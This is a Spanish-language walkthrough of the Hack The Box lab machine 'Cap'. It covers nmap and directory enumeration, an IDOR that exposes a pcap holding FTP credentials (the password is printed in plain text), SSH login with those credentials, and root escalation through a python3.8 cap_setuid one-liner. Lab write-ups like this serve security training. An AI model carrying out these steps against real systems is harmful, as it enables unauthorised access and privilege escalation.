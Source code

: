 Maquina: Cap

Autor:

Dificultad: Facil

![Screenshot 2024-11-10 111524](https://github.com/user-attachments/assets/cf2ef35d-5faa-437e-a508-947c1639c15d)

Verificamos que la máquina está activa haciendo un ping.

ping -c 1 10.129.140.249 –R

![Screenshot 2024-11-10 111659](https://github.com/user-attachments/assets/950133a3-a0db-4605-8f9c-a3e283f306a5)

Vemos que el ping nos responde con el ttl de la máquina de 63, maquina Linux, que en realidad serían 64 pero HTB por la conexión con un nodo intermediario, lo reduce en 1 unidad.

Enumeración: Usamos Nmap para escanear y descubrir posibles vulnerabilidades. Aquí es donde la curiosidad se convierte en acción.

Sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.140.249 -oG Escaneo

![Screenshot 2024-11-10 111922](https://github.com/user-attachments/assets/be35e9a9-7f69-4385-850d-ba1d154a603f)

Una vez comprobado que la máquina está activa, vamos a lanzar un nmap con permisos de root para ver qué puertos están abiertos y exportar el resultado en un fichero llamado Escaneo.
Después el escaneo me devuelve que los puertos 21 ftp, 22 ssh y 80 http están abiertos.

Sabiendo que estos puertos están abiertos, lo que hacemos a continuación es lanzar un comando completo que recoja todo:
sudo nmap -sCV -p- --open --min-rate 5000 -n -vvv -Pn 10.129.140.249 -oG Scan 

![Screenshot 2024-11-10 112556](https://github.com/user-attachments/assets/1874e781-9e82-4a55-b36e-c2aa689057d8)

Explotación:

El puerto 80 es un panel admin

usamos gobuster

gobuster dir -u http://10.129.140.249/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 50

![Screenshot 2024-11-10 120056](https://github.com/user-attachments/assets/5f75b5dc-2652-4e9b-8630-e165d7dfac8a)

enumeramos /data con wfuzz

wfuzz -u http://10.129.140.249/data/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 --hc 302,404

![Screenshot 2024-11-10 121157](https://github.com/user-attachments/assets/f8dbbe06-9035-42b5-a2a4-5c2f1fc888c8)

Ataque IDOR (Insecure Direct Object Reference)
Parece que la opción «Security Snapshot» de la izquierda 
(si haces hovering la ruta es /capture ) va cambiando y 
generando nuevas urls con la opción de poder Descargar esa información.

Probamos con incluir un valor directamente de cero en la ruta para ver la respuesta, y efectivamente nos devuelve información con la opción de descargarnos el informe, por lo que nos lo descargamos y lo analizamos para ver qué contiene.
Parece que modificando el valor de la ruta puedemos acceder a información que de forma natural de funcionamiento de la página no tendrías, por lo que estamos ante un posible ataque IDOR.

http://10.129.140.249/data/0

![Screenshot 2024-11-10 121242](https://github.com/user-attachments/assets/13e548c4-98e7-4ed4-b5da-e6b364e8226f)

nos bajamos el documento .pcap

![Screenshot 2024-11-10 121257](https://github.com/user-attachments/assets/3d9532f2-ab32-4fc6-8b41-ec6678b1f170)

Lo abrimos con wireshark y vemos que hay muchos ftp requests 

aplicamos el filtro para ver solo ftp requests y encontramos un username y un password

![Screenshot 2024-11-10 122357](https://github.com/user-attachments/assets/72d8d056-bce5-4838-879e-a63f31924ce4)

intentamos entrar por ftp

![Screenshot 2024-11-10 122533](https://github.com/user-attachments/assets/04c5f6d0-de58-4e2f-b284-3964d1232374)

dir

vemos que nathan tiene directorio home, eso significa que podemos hacer loging por ssh tambien

ssh nathan@10.129.140.249
Buck3tH4TF0RM3!

![Screenshot 2024-11-10 122707](https://github.com/user-attachments/assets/f4794c4b-12e9-4852-ad31-e2f60ad95829)

ls

cat user.txt

![Screenshot 2024-11-10 122734](https://github.com/user-attachments/assets/32d8d458-c39f-4099-b985-69416f055078)

Sin embargo este usuario no tiene permisos de root en la máquina.

Escalada de privilegios: 
ESCALADA DE PRIVILEGIOS CON CAPABILITES
En este punto, vemos los permisos id y de sudoers por si ese usuario pudiera tener permisos especiales de ejecución como root, y parece que no.

Id

![Screenshot 2024-11-10 122804](https://github.com/user-attachments/assets/424ea4c3-8813-4bac-9452-5f2ecb161c51)

Teniendo eso en cuento vamos a ver si hay algún binario que nos permite abusar del privilegio de root.
Con esta línea vamos a buscar archivos con el bit SUID (Set User ID) activado. El valor 4000 representa este permiso especial en octal. Los archivos con este permiso se ejecutan con los privilegios de su propietario (root), incluso si quien los ejecuta es un usuario diferente.

find / -perm -4000 -user root 2>/dev/null

![Screenshot 2024-11-10 123605](https://github.com/user-attachments/assets/0a9c0f4c-1e1b-46be-bb9f-70d4f1fea9de)

Hay muchos pero son los comunes por lo que parece que no podemos abusar de ninguno.
Teniendo en cuenta que la máquina se llama «Cap» es posible que mediante la opción de Linux Capabilities podamos encontrarlas y vemos si un archivo vulnerable o mal configurado tiene el bit SUID activo y es propiedad de root, y así cualquier usuario como Nathan puede ejecutarlo con privilegios de root.

getcap -r / 2>/dev/null

![Screenshot 2024-11-10 123619](https://github.com/user-attachments/assets/e16d5af2-11fa-433b-9ef7-192343e926ba)

Si vemos la línea de python 3.8 , este archivo tiene las siguientes capabilities:
cap_net_bind_service: Permite que el archivo pueda asociarse a puertos de red por debajo del 1024, que normalmente requieren permisos de root.
cap_setuid: Permite que el archivo cambie su UID efectivo (identificador de usuario). Esto es importante porque podría usarse para cambiar de usuario, lo que en ciertos casos podría permitir la escalación de privilegios.
Posible riesgo: La combinación de estas capabilities significa que cualquier script o proceso que use python3.8 podría, en teoría, manipular puertos de red y cambiar su UID.

Linux Capabilities es un sistema más granular que permite asignar permisos específicos a un proceso en lugar de usar el sistema SUID, que otorga todos los permisos de root. Capabilities divide los permisos de root en unidades más pequeñas (capabilities), como CAP_NET_ADMIN para administración de red o CAP_SYS_MODULE para cargar módulos del kernel. Esto ayuda a mejorar la seguridad al evitar la necesidad de usar SUID en muchos casos.

Si ahora vamos a GTFObins en Python y Capabilities , podemos ver el CAP_SETUID que podemos aplicar para comprometer la máquina.

Ajustas la petición teniendo en cuenta lo anterior, y ya tendríamos permisos de root y podríamos acceder a la flag de root:

python3.8 -c 'import os; os.setuid(0); os.system("bash")’

![Screenshot 2024-11-10 123803](https://github.com/user-attachments/assets/9ab61011-d93b-4393-b5a8-4f1a850ba260)

whoami

Cd /root
ls
Cat root.txt

![Screenshot 2024-11-10 124030](https://github.com/user-attachments/assets/42b5f893-9da5-46d5-86d3-6b3367fbe5ad)

¡Pwned!













